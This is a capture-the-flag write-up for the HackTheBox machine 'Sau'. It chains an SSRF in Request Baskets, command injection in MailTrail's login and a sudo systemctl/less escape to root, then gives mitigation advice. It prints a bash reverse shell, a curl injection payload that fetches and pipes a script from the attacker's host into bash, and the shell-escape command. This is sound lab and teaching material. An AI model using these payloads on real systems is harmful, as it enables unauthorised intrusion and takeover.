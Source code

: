 ```yaml
---
title: "HackTheBox - Sau"
author: Nasrallah
description: ""
date: 2024-01-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, ssrf, injection, command injection]
img_path: /assets/img/hackthebox/machines/sau
image:
    path: sau.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description:**

[Sau](https://app.hackthebox.com/machines/sau) from [HackTheBox](https://www.hackthebox.com), we find a website vulnerable to `ssrf` that we exploit to access a web app that's sitting behind a firewall, the web app is vulnerable to command injection giving us our foothold. For root we find a misconfigured sudo entry allowing us to drop a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.224                                              
Host is up (0.19s latency).          
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                       
| ssh-hostkey:                                                                 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                           
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                          
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                        
80/tcp    filtered http                                                        
55555/tcp open     unknown                                                     
| fingerprint-strings:                                                                                                                                        
|   FourOhFourRequest:                                                         
|     HTTP/1.0 400 Bad Request                                                 
|     Content-Type: text/plain; charset=utf-8                             
|     X-Content-Type-Options: nosniff                                          
|     Date: Thu, 20 Jul 2023 10:03:32 GMT                                 
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPReques
```

We found two open ports: 22 and 55555. port 80 is filtered.

### Web

Let's navigate to the web page on port 55555.

![a](1.png)

This is `Request Baskets` version 1.2.1, it allows us to inspect HTTP requests.

Searching on google for this version reveals it's vulnerable to a [Server Side Request Forgery](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). That's why there is a filtered port.

Let's first create a basket.

![a](2.png)

Now we open it.

![a](3.png)

The website gave us a link to make requests to, and it will show us on this page the HTTP requests made.

Let's go to `http://10.10.11.224:55555/4gngypw`

>The random string will be different on each basket created.

![a](4.png)

We can see the headers of our request.

The `SSRF` vulnerability can be exploited using the `Forward URL` option in the settings:

![a](5.png)

Since port 80 is filtered let's set the `Forward URL` to `http://127.0.0.1/` and check the `Proxy Response` option.

![a](6.png)

Now if let's request the url `http://10.10.11.224:55555/4gngypw`

![a](7.png)

We've successfully got the page of the website on port 80.

It shows that it's running `MailTrail (v0.53)`.

After some research we find that this version is vulnerable to an [OS Command Injection](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) during the login process

The proof of concept provided for this vulnerability is the following:

```bash
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

## **Foothold**

We'll edit the command executed to a reverse shell.

First I'll host a bash script holding the following reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.90/9001 0>&1
```

The command I'll be executing will request this script and pips it's content to bash to get it executed and me receiving a shell.

```bash
curl 'http://10.10.11.224:55555/wswltbh/login' --data 'username=;`curl 10.10.17.90/shell.sh|bash`'
```

>Make sure to use the url of the ticket you created.

![a](8.png)

We got a shell as `puma`

## **Privilege Escalation**

Let's check our privileges:

```shell
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can check the status of the trail service.

![a](9.png)

One thing to notice here is the output is not printed fully and we're in a `less` interface, that's because our tty is not setup properly.

That was lucky for us, but if the sudo command printed the output normally without showing less, we can make our terminal smaller or change the stty setting with `stty rows 20 columns 50`.

It should also be mentioned that we need a full tty shell for this to run properly, so upgrade your shell if haven't already.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

If go to GTFOBins we see that if we have a shell over `less` we can run `!/bin/bash` and get a root shell.

So we run the sudo command and follow it with `!/bin/bash`

![a](10.png)

## **Prevention and Mitigation**

### SSRF

Update `Requests Basket` to the latest version.

### Command Injection

`Mail Trail` should be updated to the latest version.

### Systemctl

systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

Set `LESSSECURE` environment variable to `1`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

## References

<https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3>

<https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/>

<https://bugzilla.redhat.com/show_bug.cgi?id=2175611>
